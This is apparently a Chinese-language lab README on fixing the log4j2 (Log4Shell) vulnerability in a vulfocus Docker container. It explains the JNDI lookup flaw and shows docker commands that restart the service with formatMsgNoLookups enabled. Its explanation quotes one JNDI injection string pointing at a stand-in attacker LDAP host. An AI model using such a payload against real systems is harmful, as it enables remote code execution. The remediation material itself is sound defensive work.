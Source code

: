 
### log4j2 漏洞修复完成，并验证了修复效果

1. log4j2 漏洞触发原理：
    
    - log4j2在解析日志信息时，支持 JNDI（Java Naming and Directory Interface） 查找，即在收到携带 ```${jndi:ldap://attacker.com:1389/Exploit}``` 这样类似的输入时，会尝试解析 ```${jndi:...}``` ，访问 ldap 服务器 ```ldap://attacker.com:1389``` ，远程加载 JAVA 代码导致 RCE（远程代码执行）。
    - 那么比较简单紧急的修复思路就是，禁用默认的 JNDI 查找。

2. 通过修改 JVM 参数紧急修复漏洞

    - 现将原来的漏洞容器删除
    ```
    docker stop <容器id>
    docker rm <容器id>
    ```
    <div><img src="pic/删除原有容器.png" width=100%></div>

    - ```formatMsgNoLookups``` 参数控制 Log4j2 是否允许在日志消息中执行变量查找，通过添加该参数启用来禁用 Log4j2 在日志消息中的 ```${}``` 变量查找，即让 log4j2 不再解析 jndi 来避免 RCE 。
    ```
    docker run -d -p 8888:8080 --name log4j2-vuln \
    vulfocus/log4j2-rce-2021-12-09 \
    java -Dlog4j2.formatMsgNoLookups=true -jar /demo/demo.jar
    ```
